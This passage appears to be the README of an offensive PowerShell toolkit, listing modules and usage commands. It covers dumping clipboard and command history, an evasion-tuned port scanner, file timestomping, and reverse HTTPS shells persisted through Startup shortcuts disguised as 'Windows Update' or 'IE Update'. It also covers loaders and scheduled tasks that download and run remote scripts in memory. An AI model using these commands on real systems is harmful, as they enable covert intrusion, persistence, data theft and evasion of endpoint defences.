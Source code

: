 ```	   

```-PsHistory```      (Dumps PowerShell Commandline History)

```-ClipBoard```      (Dumps Clipboard Contents)

```-IpConfig```       (Displays Network Interfaces information)

```-NetStat```        (Displays Active Network Connections Information)

```-DumpAll```        (Dumps all of the above modules information into %appdata%\sysinfo.txt)

## Invoke-TcpScan
Simple TCP Port Scanner.

Usage: ```Invoke-TcpScan -IpAddress 192.168.1.1 -Ports 22,80,443,445,8080```

Note: This is a SLOW scanner, one probe every second. The slow scanning is intentional as it helps to evade things like Symantec's Endpoint Protection firewall. The idea behind this is to generate as little noise as possible.

## Invoke-TimeStomp
Modifies a files' Creation Time to that of C:\windows\system32\cmd.exe unless "TimeOf" parameter is used.


Usage: 

```Invoke-TimeStomp -File C:\programdata\file.exe```

```Invoke-TimeStomp -File C:\temp\file.exe -TimeOf C:\windows\system32\calc.exe```

## Invoke-XuLiE
Compiles a reverse (PowerShell) HTTPS shell .NET executable in real-time using csc.exe which utilizes ```System.Management.Automation.dll``` for its functionality. It drops the resulting executable in a randomly selected directory. Creates a .lnk in StartUp for persistence. The generated file will have a randomly-generated file name, a .dat extension and be executed via "cmd /c start file.dat". 

Requires an SSL listener on the attacker-side.

Usage: ```Invoke-XuLiE -Lhost 192.168.1.2 -Lport 443 -LnkName "Windows Update"```

## New-Lnk
Generates an LNK file with a custom command in current users' StartUp directory.

Usage: ```New-Lnk -BaseCmd "cmd.exe" -CmdArgs "/c foo" -IconNum 220 -LnkName "IE Update"```

## New-PsDat
Compiles a .NET Executable as a .dat file which takes a url to remotely hosted powershell script as an argument. Uses ```System.Management.Automation.dll``` for its functionality. Uses ```DownloadString``` method to execute remote powershell script in memory.

Generate the .dat: ```New-PsDat``` (no additional parameters)

Using the .dat: ```cmd /c eXuNt.dat https://server/script.ps1 valid_ps_function```

## New-PsTask
Generates a scheduled task that utilizes Net.Webclient Downloadstring method to a remote PowerShell script.

Usage: ```New-PsTask -PSUrl http://server/script.ps1 -TaskName "Test" -Time "00:01"```

## New-Reverse
Compiles a .NET (PowerShell) Reverse HTTPS Shell Executable. Currently only SSL listener is supported.
```